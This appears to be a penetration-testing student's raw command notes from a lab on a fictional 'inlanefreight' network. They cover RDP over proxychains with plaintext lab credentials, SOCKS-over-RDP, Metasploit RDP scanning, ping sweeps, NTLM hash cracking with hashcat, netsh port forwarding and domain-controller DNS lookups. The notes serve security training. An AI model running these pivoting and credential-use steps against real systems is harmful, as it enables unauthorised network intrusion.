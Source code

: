 proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:"Plain Human work!" /drive:linux,/home/ /dynamic-resolution

DLL in Register Server SocksOverRDP-Plugin.dll succedded

proxychains msfconsole
search rdp_scanner
set rhosts 172.16.5.0/18
run

proxychains nmap -v -sn 172.16.5.1-200

1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}

webadmin@inlanefreight:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.645 ms

for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"

C:\Windows\system32>ping 172.16.5.15 -n 1 -w 100   | find "Reply"
Reply from 172.16.5.15: bytes=32 time<1ms TTL=64

C:\Windows\system32>ping 172.16.5.35 -n 1 -w 100   | find "Reply"
Reply from 172.16.5.35: bytes=32 time<1ms TTL=128

for /L %i in (1 1 254) do ping 172.16.6.%i -n 1 -w 100 | find "Reply"

C:\Windows\system32>ping 172.16.6.35 -n 1 -w 100   | find "Reply"
Reply from 172.16.6.35: bytes=32 time<1ms TTL=128

172.16.6.35
inlanefreight.local\vfrank
Imply wet Unmasked!

sudo hashcat -m 1000 2e16a00be74fa0bf862b4256d0347e83 /usr/share/wordlists/rockyou.txt

netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.15 connectport=3389 connectaddress=172.16.6.35
netsh.exe interface portproxy show v4tov4
proxychains xfreerdp /u:mlefay /p:"Plain Human work!" /v:$172.16.6.35:8080

C:\Users\mlefay>ping 172.16.6.25 -n 1 -w 100   | find "Reply"
Reply from 172.16.6.25: bytes=32 time<1ms TTL=128

C:\Users\mlefay>ping 172.16.6.45 -n 1 -w 100   | find "Reply"
Reply from 172.16.6.45: bytes=32 time=1ms TTL=64

C:\Windows\system32>nslookup
DNS request timed out.
    timeout was 2 seconds.
Default Server:  UnKnown
Address:  172.16.10.5

> set type=all
> _ldap._tcp.dc._msdcs.DOMAIN_NAME
Server:  UnKnown
Address:  172.16.10.5
